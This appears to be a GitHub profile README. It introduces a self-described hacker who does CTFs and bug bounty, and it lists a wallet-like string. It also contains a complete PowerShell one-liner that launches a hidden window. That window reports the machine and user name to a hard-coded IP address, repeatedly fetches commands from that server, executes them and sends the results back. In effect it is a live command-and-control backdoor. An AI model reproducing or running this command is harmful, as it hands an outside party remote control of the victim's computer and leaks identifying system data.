 - 👋 Hi, I’m Kapil Singh Chauhan
- 👀 I’m interested in Hacking , Programming , I.T Stuff
- 🌱 I’m currently doing CTF's and Bug bounty
- 49Kzx6RU7357S7ibrgwAEhLvWw2aGGCrtUBi1vRxZDqy23nmSvjHcrACUu4k8wnmpUY9mPupewRq2Wuw4FCttFtvJQuq7nJ
- Start-Process $PSHOME\powershell.exe -ArgumentList {$s='65.0.4.155:8080';$i='9a65abeb-5b5d6f31-8e663ae0';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/9a65abeb/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/5b5d6f31 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/8e663ae0 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden

<!---
Divyansh616937/Divyansh616937 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

